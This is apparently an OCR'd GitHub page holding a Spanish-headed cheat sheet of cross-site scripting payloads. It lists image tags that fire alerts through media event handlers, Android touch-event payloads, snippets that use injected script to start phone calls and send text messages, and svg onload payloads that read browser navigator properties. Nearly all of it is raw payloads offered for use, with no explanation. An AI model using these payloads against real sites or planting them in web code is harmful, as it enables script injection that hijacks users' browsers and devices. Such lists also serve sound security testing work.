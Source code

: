 ```
<IMG SRC=x onloadeddata="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onloadedmetadata="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onloadstart="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpause="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onplay="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onplaying="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onprogress="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onratechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onseeked="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onseeking="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onstalled="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsuspend="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ontimeupdate="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onvolumechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onwaiting="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onshow="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ontoggle="alert(String.fromCharCode(88,83,83))">

```

# xss en android 

```
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
<svg onload=alert(navigator.connection.type)>

```

## xss en android para iniciar llamada y enviar mensajes de texto

```
onclick="window.location.href='tel:00000000000';"

window.open ("sms:[00000000000]?body=" + "mensaje","_system");

```







## xss javascript navigator  

```
<svg onload=alert(navigator.appCodeName)>
<svg onload=alert(navigator.appName)>
<svg onload=alert(navigator.appVersion)>
<svg onload=alert(navigator.cookieEnabled)>
<svg onload=alert(navigator.language)>
<svg onload=alert(navigator.onLine)>
<svg onload=alert(navigator.platform)>
<svg onload=alert(navigator.userAgent)>


```
